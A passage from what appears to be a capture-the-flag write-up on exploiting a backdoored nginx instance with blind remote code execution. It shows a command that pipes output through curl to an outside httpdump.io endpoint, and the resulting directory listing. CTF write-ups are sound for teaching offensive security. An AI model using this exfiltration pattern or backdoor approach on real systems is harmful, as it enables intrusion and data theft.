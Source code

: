 Check if a file named /tmp/bla has been written?
```
root@injector-local:/tmp# ls -la
total 48
drwxrwxrwt 11 root     root     4096 Jan 21 22:20 .
drwxr-xr-x 19 root     root     4096 Dec 21 16:20 ..
-rw-rw-rw-  1 www-data www-data    4 Jan 21 22:20 bla
```

This proves that the backdoor shellcode has at least been placed into nginx in the local qemu image!
There is one additional obstacle to climb over though: There is no echoing back of the system() output, making this a **blind remote code execution (RCE)**.

## How to Redirect RCE Output
There are different ways to redirect the RCE output to a listener under your control. One could be a netcat listener on a public routable IP address. In case you are missing one (due to NAT), you could set up a temporary HTTP endpoint at httpdump.io.
For this CTF, i used https://httpdump.io/hwie_
```
$ nc injector.challenges.adversary.zone 4321
cmd{ls -l | curl -X POST --data-binary @- https://httpdump.io/hwie_}
```

This yields:
```
total 64
lrwxrwxrwx   1 root root     7 Oct 22 13:58 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Dec 17 15:16 boot
drwxr-xr-x   2 root root  4096 Dec 17 14:59 cdrom
drwxr-xr-x  17 root root  3860 Jan 21 13:40 dev
drwxr-xr-x  92 root root  4096 Jan 12 14:56 etc
lrwxrwxrwx   1 root root    19 Jan 12 12:57 flag -> /home/user/flag.txt
lrwxrwxrwx   1 root root    19 Jan 12 12:10 flag.txt -> /home/user/flag.txt
drwxr-xr-x   3 root root  4096 Dec 17 15:07 home
lrwxrwxrwx   1 root root     7 Oct 22 13:58 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Oct 22 13:58 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Oct 22 13:58 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Oct 22 13:58 libx32 -> usr/libx32
drwx------   2 root root 16384 Dec 17 14:59 lost+found
drwxr-xr-x   2 root root  4096 Oct 22 13:58 media
drwxr-xr-x   2 root root  4096 Oct 22 13:58 mnt
drwxr-xr-x   2 root root  4096 Oct 22 13:58 opt
dr-xr-xr-x 170 root root     0 Jan 21 13:39 proc
drwx------   7 root root  4096 Jan 13 18:37 root
drwxr-xr-x  24 root root   720 Jan 21 17:32 run
lrwxrwxrwx   1 root root     8 Oct 22 13:58 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Oct 22 13:58 srv
dr-xr-xr-x  13 root root     0 Jan 21 13:39 sys
drwxrwxrwt  10 root root  4096 Jan 21 22:08 tmp
drwxr-xr-x  14 root root  4096 Oct 22 13:58 usr
drwxr-xr-x  13 root root  4096 Dec 30 18:16 var
```
